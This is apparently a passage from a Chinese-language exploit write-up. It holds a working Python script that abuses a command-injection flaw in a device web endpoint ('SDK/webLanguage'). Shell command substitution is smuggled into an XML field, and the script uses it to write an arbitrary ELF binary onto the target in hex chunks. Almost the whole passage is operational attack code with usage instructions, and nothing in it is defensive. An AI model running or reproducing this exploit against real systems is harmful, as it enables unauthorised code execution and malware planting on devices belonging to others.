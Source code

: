 如果你自己修改了脚本，建议这个数字再小一点，减少 4 的整数倍，这里就以 180 为例，修改 echo 写入脚本

```plain
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=100):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

target = sys.argv[1]
file_path = sys.argv[2]

with open(file_path, 'rb') as file:
    elf_data = file.read()

hex_string = ''.join(['\\x{:02x}'.format(byte) for byte in elf_data])

hex_string_len = len(hex_string)
print(hex_string_len)

# 动态设置 Host 字段
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=180):
    result = sendPayload(target, chunk)
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
```